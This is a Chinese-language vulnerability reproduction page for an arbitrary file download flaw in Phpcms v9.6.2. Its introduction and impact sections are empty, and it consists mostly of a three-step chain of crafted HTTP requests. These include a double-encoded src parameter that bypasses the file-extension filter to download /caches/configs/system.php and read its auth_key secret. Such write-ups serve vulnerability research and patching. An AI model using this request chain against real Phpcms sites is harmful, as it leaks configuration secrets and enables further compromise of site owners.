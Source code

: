 ```yaml
---
title: Phpcms v9.6.2 任意文件下载
id: zhfly3081
---
```


# Phpcms v9.6.2 任意文件下载

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

##### 第一步:进行如下请求获得YDVIB_siteid的值。

请求：

```
[GET]http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=wap&c=index&a=init&siteid=1 
```

获得：

```
[cookie]YDVIB_siteid:75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst 
```

##### 第二步:在[POST DATA] 中的userid_flash参数的值设置为，第一步请求得到的YDVIB_siteid参数的值，并进行如下请求。

请求：

```
[GET] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=attachment&c=attachments&a=swfupload_json&src=a%26i=1%26m=1%26catid=1%26f=./caches/configs/system.ph%253ep%2581%26modelid=1%26d=1&aid=1 `[POST DATA] userid_flash=75d1XCnlbSh-1zi2xZ-gearAbSsmOcXypuSKXZst` 
```

获得：

```
[cookie] YDVIB_att_json:ea6fUlmiupVPoK2udMAztI7dpqUURRW1plemEGmRhGPocAvwWbcMk3BARFHzxLI4NJrV1IJQ2PaHeec790iDdhRJ9dJbhEKamgM55SwKR-F3fFmmWDOVuHnyiWg9kyMzQ2l9D_cRPQmM7P9e7ZYrESNQwjMOytrFTIhY4SFmK2Vjc3GS3g 
```

##### 第三步:将GET请求中的a_k参数的值设置为第二步请求获得的YDVIB_att_json参数的值，并进行如下请求。

请求：

```
[get] http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=init&a_k=41f4VsAhLvN8-4L1ntgSsuga4BrvYA5zcDo2bjiYB7RI98Qzj5D5k8dqqBfo7cUNwF3TGhz1SH-vPs3lIIQJYwHeF_u2b3QVfD2HIO3Gay68TAtz2rqYhX8XIeznWrTtOI24418KZUoTEAfnY4kZNtIajW-bqHRV1djqmEc1hSAwkIYWA9CPrw 
```

获得：

```
http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM 
```

##### 最后点击”点击下载”的按钮进行如下请求，便可以下载/caches/configs/system.php文件，得到里面的’auth_key’

```
http://127.0.0.1/code/phpcms_v9.6.2_UTF8/index.php?m=content&c=down&a=download&a_k=7e9d9SFk0jOteAemg-j7IVn6Ph1JFU9FEkyDo9xeasNJDPgZsOhusc39D4KiHzydJwt2B4iLuu-l9w03UV47obM9nsnjcJxi2jbawvqfZWcY9PeL3j0MgKxAvgXL4-dbf8gGG6_EJXIOA2p9Jkl9QcM 
```

![image](../img/822b8f777cf8a81d8c5eb1835c179f20.png)

## 参考链接

> https://www.freebuf.com/column/158352.html